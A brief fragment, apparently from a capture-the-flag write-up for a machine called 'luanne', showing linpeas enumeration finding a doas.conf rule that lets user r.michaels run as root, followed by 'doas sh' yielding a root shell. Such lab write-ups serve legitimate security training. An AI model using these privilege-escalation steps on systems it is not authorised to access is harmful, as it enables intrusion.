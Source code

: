 # Doas

```
luanne$ sh linpeas.sh -a
<SNIP>
[+] Checking doas.conf 
permit r.michaels as root
```

```
luanne$ doas sh
Password:
# whoami
root
```
